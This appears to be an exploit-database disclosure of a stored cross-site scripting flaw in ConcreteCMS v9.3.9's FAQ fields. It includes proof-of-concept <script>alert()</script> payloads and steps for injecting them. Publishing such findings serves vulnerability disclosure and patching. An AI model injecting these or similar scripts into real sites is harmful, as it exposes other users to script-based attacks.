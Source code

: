 # Exploit Title: Concretecms v9.3.9 - Cross-Site Scripting (XSS)
## Date: 3/14/2025
## Vendor Homepage: https://github.com/concretecms/concretecms
## Tested on: Debian Linux, Apache, Mysql
## Vendor: Concretecms
## Version: v9.3.9
## Exploit Description:
## ConcreteCMS v9.3.9 suffers from a Stored Cross-Site Scripting (XSS) vulnerability in the Question field when adding a FAQ. This vulnerability allows attackers to cheat other users by injecting malicious scripts into web pages viewed by other users.

## ---------------------------------POC-----------------------------

```
<script>alert('Navigation Link Text');</script>
<script>alert('Title Text');</script>
<script>alert('Description');</script>
```

While editing the FAQ, add <script>alert('...');</script> to the Navigation Link Text field、Title Text、Description(source) and then click save,the xss vulnerability appears.

